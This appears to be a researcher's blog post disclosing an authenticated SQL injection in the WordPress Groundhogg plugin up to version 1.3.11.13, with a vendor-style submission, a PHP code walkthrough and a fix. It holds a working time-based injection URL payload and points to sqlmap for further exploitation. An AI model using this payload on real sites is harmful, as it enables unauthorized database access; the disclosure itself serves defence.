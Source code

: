 ```yaml
---
layout: post
title: Wordpress Groundhogg <= 1.3.11.13 Authentificated SQL Injection
date: 2019-10-23 11:47 -0300
categories: [my_exploits, offensive_security]
tags: [ exploit, vulnerability, sql, injection, Groundhogg, wordpress, Authenticated]
pin: false
hidden: false
---
```


![Wordpress Groundhogg <= 1.3.11.13 Authentificated SQL Injection](/uploads/Screenshot from 2019-10-23 18-17-25.png)

Wordpress Groundhogg plugin with a version lower than 1.3.11.13 is affected by an Authenticated SQL Injection vulnerability.

#### Intial submission of the vulnerability

``````markdown
# Exploit Title: Wordpress Groundhogg <= 1.3.11.13 Authenticated SQL Injection Vulnerability
# Date: 23-10-2019
# Exploit Author: Lucian Ioan Nitescu
# Contact: https://twitter.com/LucianNitescu
# Webiste: https://nitesculucian.github.io
# Vendor Homepage: https://www.groundhogg.io/
# Software Link: https://wordpress.org/plugins/groundhogg/
# Version: 1.3.11.13
# Tested on: Ubuntu 18.04 / Wordpress 5.3
 
1. Description:  
 
Wordpress Groundhogg plugin with a version lower than 1.3.11.13 is affected by an Authenticated SQL Injection vulnerability.

2. Proof of Concept: 
 
Authenticated SQL Injection:
- Using an Wordpress user, access <your target> /wp-admin/admin.php?page=gh_bulk_jobs&action=gh_export_contacts&optin_status%5B0%5D=(select*from(select(sleep(20)))a)&optin_status%5B1%5D=0
- The response will be returned after 20 seconds proving the successful exploitation of the vulnerability.
- Sqlmap can be used to further exploit the vulnerability.

``````

#### Detailed analysis of the vulnerability

The function from `/wp-content/plugins/groundhogg/includes/admin/tools/class-wpgh-export-bulk-job.php` from lines `38-51` is accepting arbitrary user-supplied data as follows:

```php
public function query($items)
{
    if ( ! current_user_can( 'export_contacts' ) ){
        return $items;
    }

    $query = new WPGH_Contact_Query();
    $args = $_GET;

    $contacts = $query->query( $args );
    $ids = wp_list_pluck( $contacts, 'ID' );

    return $ids;
}
```
The line containing `$contacts = $query->query( $args );` allows unsanitised user input within the following function from `/wp-content/plugins/groundhogg/includes/class-wpgh-contact-query.php` lines `279-284`:

```php
public function query( $query ) {
    $this->query_vars = wp_parse_args( $query );
    $items = $this->get_items();

    return $items;
}
```

Finaly the unsinitised query is perfomed on `wp-content/plugins/groundhogg/includes/class-wpgh-contact-query.php` at line `430` ( `WPGH_Contact_Query->query_items()` ):

```php
$results       = $wpdb->get_results( $this->request );

return $results;
```

#### How to fix

Update to the latest available version of the Groundhogg plugin.

#### Public appearances

- tba

#### Other references

- tba